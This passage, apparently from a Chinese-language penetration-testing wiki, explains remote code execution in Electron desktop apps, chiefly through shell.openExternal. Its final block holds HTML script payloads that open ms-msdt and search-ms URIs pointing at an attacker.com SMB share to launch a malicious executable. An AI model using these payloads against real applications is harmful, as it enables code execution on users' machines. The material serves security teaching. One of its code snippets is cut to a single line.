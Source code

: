 有两个可以覆盖内置方法的地方：preload 代码或 Electron 内部代码：


{{#ref}}
electron-contextisolation-rce-via-preload-code.md
{{#endref}}


{{#ref}}
electron-contextisolation-rce-via-electron-internal-code.md
{{#endref}}


{{#ref}}
electron-contextisolation-rce-via-ipc.md
{{#endref}}

### 绕过点击事件

如果在点击链接时存在限制，你可能可以通过 **中键点击**（而不是常规的左键点击）来绕过它们
```javascript
window.addEventListener('click', (e) => {
```
## 通过 shell.openExternal 的 RCE

有关此示例的更多信息，请查看 [https://shabarkin.medium.com/1-click-rce-in-electron-applications-79b52e1fe8b8](https://shabarkin.medium.com/1-click-rce-in-electron-applications-79b52e1fe8b8) 和 [https://benjamin-altpeter.de/shell-openexternal-dangers/](https://benjamin-altpeter.de/shell-openexternal-dangers/)

在部署 Electron 桌面应用程序时，确保 `nodeIntegration` 和 `contextIsolation` 的设置正确至关重要。已经确认，启用这些设置可以有效阻止针对 preload scripts 或来自主进程的 Electron 原生代码的 **client-side remote code execution (RCE)**。

当用户与链接交互或打开新窗口时，会触发特定的事件监听器，这些监听器对应用的安全性和功能性至关重要：
```javascript
webContents.on("new-window", function (event, url, disposition, options) {}
webContents.on("will-navigate", function (event, url) {}
```
这些监听器被桌面应用程序**覆盖**以实现其自身的**业务逻辑**。应用会评估导航的链接应在应用内部打开还是在外部浏览器中打开。该决定通常通过函数 `openInternally` 做出。如果此函数返回 `false`，则表示该链接应在外部打开，使用 `shell.openExternal` 函数。

**下面是简化的伪代码：**

![https://miro.medium.com/max/1400/1*iqX26DMEr9RF7nMC1ANMAA.png](<../../../images/image (261).png>)

![https://miro.medium.com/max/1400/1*ZfgVwT3X1V_UfjcKaAccag.png](<../../../images/image (963).png>)

Electron JS 安全最佳实践建议不要通过 `openExternal` 接受不受信任的内容，因为这可能通过各种协议导致 RCE。操作系统支持不同的协议，可能触发 RCE。有关此主题的详细示例和进一步说明，请参考 [this resource](https://positive.security/blog/url-open-rce#windows-10-19042)，其中包含可利用该漏洞的 Windows 协议示例。

在 macos 中，`openExternal` 函数可以被利用来执行任意命令，例如 `shell.openExternal('file:///System/Applications/Calculator.app')`。

**Windows 协议利用示例包括：**
```html
<script>
window.open(
"ms-msdt:id%20PCWDiagnostic%20%2Fmoreoptions%20false%20%2Fskip%20true%20%2Fparam%20IT_BrowseForFile%3D%22%5Cattacker.comsmb_sharemalicious_executable.exe%22%20%2Fparam%20IT_SelectProgram%3D%22NotListed%22%20%2Fparam%20IT_AutoTroubleshoot%3D%22ts_AUTO%22"
)
</script>

<script>
window.open(
"search-ms:query=malicious_executable.exe&crumb=location:%5C%5Cattacker.com%5Csmb_share%5Ctools&displayname=Important%20update"
)
</script>
```